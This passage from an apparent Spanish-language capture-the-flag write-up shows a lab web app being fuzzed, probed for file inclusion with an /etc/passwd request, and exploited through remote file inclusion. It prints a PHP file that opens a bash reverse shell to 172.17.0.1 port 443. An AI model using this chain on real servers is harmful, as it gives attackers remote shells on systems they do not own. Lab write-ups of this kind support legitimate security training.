 ```bash
=====================================================================

000001915:   200        39 L     104 W      1071 Ch     "love"
```


Vemos que hay un posible **LFI**.
# EXPLOTACION

Vemos que con:

```bash
http://trackedvuln.dl/index.php?love=/etc/passwd
```

No nos lo muestra y que recordemos mirar /tmp.

Vamos a probar con un **RFI** :

```bash
http://trackedvuln.dl/index.php?love=http://localhost/index.html
```

Nos muestra la pagina, por lo que es vulnerable a un **RFI**.

Vamos a darnos una shell esuchando por el puerto 443:
```bash

http://trackedvuln.dl/index.php?love=http://172.17.0.1:8000/wp.php

```

```php

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

# ESCALADA PRIVILEGIOS
